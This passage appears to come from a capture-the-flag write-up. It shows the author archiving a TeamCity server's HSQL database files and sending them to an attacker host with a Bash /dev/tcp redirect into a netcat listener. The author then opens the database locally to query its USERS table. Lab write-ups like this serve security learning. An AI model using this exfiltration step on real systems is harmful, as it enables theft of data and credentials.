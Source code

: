 ```

tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ tar -cf buildserver.tar buildserver.*
tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ tar tf buildserver.tar 
buildserver.data
buildserver.lck
buildserver.log
buildserver.properties
buildserver.script
buildserver.tmp/
tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ md5sum buildserver.tar 
d6ad814b8302bd69015cc285ec5b8a99  buildserver.tar

```

I’ll exfil it using Bash:

```

tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ cat buildserver.tar > /dev/tcp/10.10.14.6/5555

```

At my host, `nc` gets the file:

```

oxdf@hacky$ nc -lnvp 5555 > buildserver.tar
Listening on 0.0.0.0 5555
Connection received on 10.10.11.13 37396
oxdf@hacky$ md5sum buildserver.tar 
d6ad814b8302bd69015cc285ec5b8a99  buildserver.tar

```

I’ll [download the HSQL server](https://sourceforge.net/projects/hsqldb/) and unpack it, running it with `java`:

```

oxdf@hacky$ java -jar hsqldb-2.7.2/hsqldb/lib/hsqldb.jar 

```

At the connection screen, I’ll switch it to “Standalone” and give the URL pointing “buildserver” just like in the TeamCity container:

![image-20240426131145951](/img/image-20240426131145951.png)

On clicking “Ok”, it shows all the tables:

![image-20240426131221193](/img/image-20240426131221193.png)

`SELECT * FROM USERS;` will find the data:

![image-20240426131302577](/img/image-20240426131302577.png)

